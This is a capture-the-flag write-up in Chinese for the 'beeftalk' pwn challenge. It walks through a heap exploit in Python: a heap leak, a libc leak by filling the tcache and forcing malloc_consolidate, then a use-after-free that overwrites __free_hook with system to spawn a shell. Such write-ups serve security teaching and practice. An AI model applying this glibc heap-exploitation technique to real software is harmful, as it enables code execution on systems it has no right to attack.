





# beeftalk

leak heap address 很簡單，直接 reuse 剛剛 delete 的 user 就可以在 name 得到 heap address:



leak libc 就比較麻煩了，首先需要先填滿 0x90 大小的 tcache

```python
users = ['']*8
for i in range(7):
    users[i] = signup(b"A"*0x80, "123", "123", "123")

for i in range(7):
    login(users[i])
    delete_account()
```



```python
users[0] = signup(b"A"*0x80, "123", "123", "123")
login(users[0])
delete_account()
```

再下一次 signup 再 delete account 時，會因為 0x90 這塊透過 realloc 的記憶體做 free，且下一個 chunk 是 top chunk 而觸發 `malloc_consolidate` (大小超過 0x10000)，fastbin 會被重放在 unsortbin 中



接著，把 tcache 內的 chunk 清空，unsortbin 會再落到 smallbin：

```python
for _ in range(4):
    token = signup(b"", "123", "123", "123")
```



接下來再建立一個 user，會依序要 0x50 (User), 0x30 (name) ... 的記憶體，0x50 會要到 smallbin 的 0x60 大小的 chunk，0x30 會從 0xa0 剪下 0x30 後分配，因為 smallbin 的 fb 會接到 main_arena，所以 name 的欄位剛好就是一個 libc 的位置，之後就可以 leak 出 libc 的 base address：

```python
users[4] = signup(b"", "123", "123", "123")
login(users[4])

p.recvuntil("Hello \n")
libc = int(p.recvline().split(b", have a nice day !\n")[0][::-1].hex()[0:-1]+'000', base=16) - 0x1eb000
_system = libc + 0x55410
__free_hook = libc + 0x1eeb28
```

接下來，就是找到一個 pattern，可以讓 desc 或是 name 改到某個 user 的結構，就可以使用 UAF，我使用以下這個 payload，在這個時間點後 user4 的 desc 會等於 user5 的結構：

```python
delete_account()

users[4] = signup(b"", "123", "123", "123")
users[5] = signup(b"A"*0x20, "123", "123", "123")
users[6] = signup(b"", "123", "123", "123")

login(users[6])
delete_account()

login(users[5])
delete_account()

login(users[3])
delete_account()

users[4] = signup(b"A"*0x20, "123", "123", "123")
```

之後就是先把 free_hook 的位址寫到 user5 的結構上，再透過 update_user 來將 `/bin/sh` 以及 `system` 寫入，最後 delete_user 之後即可 get shell

```python
login(users[4])
fake = p64(__free_hook-8) + p64(__free_hook)
update_user(b"", fake, b"", b"")
logout()

print(users[5], _system)

login(users[5])

update_user(b'/bin/sh\x00', p64(_system), b"", b"")

p.sendlineafter("4. logout\n> ", "3")
p.sendlineafter("Are you sure ?\n(y/n) > ", "y")
```

